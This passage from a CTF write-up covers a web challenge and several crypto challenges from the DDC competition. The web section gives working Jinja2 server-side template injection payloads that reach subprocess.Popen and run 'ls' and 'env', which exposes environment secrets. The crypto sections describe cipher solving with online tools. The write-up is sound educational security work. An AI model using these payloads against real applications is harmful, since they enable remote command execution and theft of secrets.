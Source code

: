 And sure enough, if we enter a test payload for Server Side Template Injection like ``{{7+7}}`` we can see that it gets executed and returns ``14`` in the comment.

Now we can use the object class from the MRO to get a list of subclasses that we can use to get RCE:

``{{''.__class__.__mro__[1].__subclasses__()}}``

This returns a long list of all the subclasses we can use. We are interested in ``subprocess.Popen``. Once we have found that, we just need to figure out what index it is located at in the subclasses list. In my case, it is at index ``534``.

Now we can test our RCE by running any command like ``ls``:

``{{''.__class__.__mro__[1].__subclasses__()[534]('ls',shell=True,stdout=-1).communicate()}}``

And sure enough, this returns a list of files in the current directory!

By running ``whoami``, we can actually see that the web app is running as ``root`` too. But all we need to get the flag is to check ``env``:

``{{''.__class__.__mro__[1].__subclasses__()[534]('env',shell=True,stdout=-1).communicate()}}``

And we get our flag: ``DDC{c0mments_4r3_4_n4sty_th1ng}``


## Crypto

### Matematikeksperten
###### 162pts - 31 solves - Very Easy
I'm not sure which cipher this was exactly, but I used the Redefence Cipher on [dcode.fr](https://www.dcode.fr/redefence-cipher) and guessed the flag from there.

I used the following results from Dcode to guess the flag:

``DDC{isuj_o_want_ot__e_gotta_d}mathb`` <br> ``DDC{isu_jow_ant_o_t__egottad_}amthb`` <br> ``bDDC{isuj_o_want_ot__e_gotta_d}math`` 

With these, we have a good idea of some of the words, like "want", "just", and "math".
After some trial and error in Notepad, I eventually got to the flag:
``DDC{i_just_want_to_be_good_at_math}``

### Substitution in the constitution
###### 100pts - 63 solves - Easy
This challenge was a simple substitution cipher using a snippet of the Danish Constitution (Grundloven).

For this, I used the tool on [dcode.fr](https://www.dcode.fr/monoalphabetic-substitution) with the language set to Norwegian to get it as close as possible.
After seeing the output, I found out that the first text was just from the constitution itself, found [here](https://www.retsinformation.dk/eli/lta/1953/169). So I just adjusted the few characters that were wrong until it was readable and gave the flag:

``DDC{vi_mennesker_i_kongeriget_danmark}``

### Time for RSA
###### 709pts - 11 solves - Easy
From the description of this challenge, we are told that the RSA keys were generated on ``18. februar 2024 kl. 21.00 GMT`` and took a few tries, but in less than an hour.
